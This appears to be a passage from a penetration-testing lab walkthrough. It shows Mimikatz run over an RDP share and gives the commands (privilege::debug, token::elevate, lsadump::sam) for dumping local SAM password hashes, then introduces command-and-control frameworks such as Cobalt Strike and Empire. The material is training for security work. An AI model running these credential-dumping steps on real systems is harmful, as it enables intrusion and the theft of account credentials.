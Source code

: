 With GUI access obtained and our Windows resources shared to the target, we can now very easily use Mimikatz to dump the local account password hashes for this target. Next we open up a cmd.exe or PowerShell window as an administrator (i.e. right click on the icon, then click "Run as administrator") in the GUI and enter the following command:
\\tsclient\share\mimikatz\x64\mimikatz.exe

![image](https://user-images.githubusercontent.com/89842187/132026501-8f40ed50-08ae-496c-b78f-07a880b5526b.png)

Note: if you used a different share name, you would need to substitute this in. Equally, if the command errors out, you may need to install mimikatz on Kali with sudo apt install mimikatz.


With Mimikatz loaded, we next need to give ourselves the Debug privilege and elevate our integrity to SYSTEM level. This can be done with the following commands:

```
privilege::debug
token::elevate
```

![image](https://user-images.githubusercontent.com/89842187/132026551-ea61a3b6-5cb4-4ab6-bdf5-75cbb6743ebe.png)

If we want we could log Mimikatz output with the log command. For example: log c:\windows\temp\mimikatz.log, would save the Mimikatz output into the Windows Temp directory. This could also be saved directly into our Kali machine, but be aware that the remote destination must be writeable to the local user running the RDP session.

We can now dump all of the SAM local password hashes using:
```
lsadump::sam
```
Near the top of the results you will see the Administrator's NTLM hash:

![image](https://user-images.githubusercontent.com/89842187/132026598-605ba75a-5457-450f-90d4-95c996c1bfb4.png)


## Command and Control Introduction

Note: If you are using the AttackBox then you are advised to skip to Task 32. The way that Empire is installed in the AttackBox is not representative of the recommended method -- a necessary design choice which was made to accommodate other software running on the machine. If you are comfortable working with Docker (and changing the instructions in the following tasks to accommodate accordingly) then feel free to read on. Otherwise please skip to the next section.

So, we have a stable shell. What now?

With a foothold in a target network, we can start looking to bring what is known as a C2 (Command and Control) Framework into play. C2 Frameworks are used to consolidate an attacker's position within a network and simplify post-exploitation steps (privesc, AV evasion, pivoting, looting, covert network tactics, etc), as well as providing red teams with extensive collaboration features. There are many C2 Frameworks available. The most famous (and expensive) is likely Cobalt Strike https://www.cobaltstrike.com/; however, there are many others, including the .NET based Covenant https://github.com/cobbr/Covenant, Merlin https://github.com/Ne0nd0g/merlin, Shadow https://github.com/bats3c/shad0w , https://github.com/nettitude/PoshC2, and many others. An excellent resource for finding (and filtering) C2 frameworks is The C2 Matrix https://www.thec2matrix.com/, which provides a great list of the pros and cons of a huge number of frameworks.
